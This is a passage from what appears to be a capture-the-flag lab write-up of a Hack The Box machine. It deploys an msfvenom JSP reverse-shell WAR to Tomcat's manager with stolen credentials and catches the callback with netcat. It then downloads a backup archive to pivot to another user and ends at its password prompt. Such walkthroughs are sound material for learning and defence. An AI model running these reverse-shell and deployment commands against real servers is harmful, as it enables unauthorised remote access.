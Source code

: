 ```bash
```
Success! Now we can connect to the new webapp and see the shell:
![](img/2022-06-11-17-39-31.png)
Now, we can try to obtain a reverse shell as the user `tomcat`. But every attempt to obtain a reverse shell through the webshell ends up in failure. So we should create directly a reverse shell application:
```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=3333 -f war -o reverse.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: reverse.war
❯ curl --upload-file reverse.war -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/text/deploy?path=/reverse&update=true"
OK - Deployed application at context path [/reverse]
```
Now, if we try to achieve the reverse shell:
```bash
# Trigger shell
❯ curl "http://megahosting.htb:8080/reverse/"

# Listening shell
❯ nc -nlvp 3333
Connection from 10.10.10.194:34578
whoami
tomcat
hostname -I
10.10.10.194 
```
We obtained a shell as tomcat.

## Pivoting to Ash user
Now, to pivot to the user `ash` we can start by analyzing the webserver's files. Concretely, we can see that in `/var/www/html/files/` we can find the file `16162020_backup.zip`. Download it on our computer and unzip it:
```bash
❯ wget "http://megahosting.htb/files/16162020_backup.zip"
--2022-06-11 18:37:55--  http://megahosting.htb/files/16162020_backup.zip
Resolving megahosting.htb (megahosting.htb)... 10.10.10.194
Connecting to megahosting.htb (megahosting.htb)|10.10.10.194|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8716 (8.5K) [application/zip]
Saving to: '16162020_backup.zip'

16162020_backup.zip  100%[=====================>]   8.51K  --.-KB/s    in 0.008s  

2022-06-11 18:37:55 (1.00 MB/s) - '16162020_backup.zip' saved [8716/8716]

❯ file 16162020_backup.zip
16162020_backup.zip: Zip archive data, at least v1.0 to extract, compression method=store
❯ mv 16162020_backup.zip Results
❯ cd Results
❯ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
password incorrect--reenter: %                                                     
```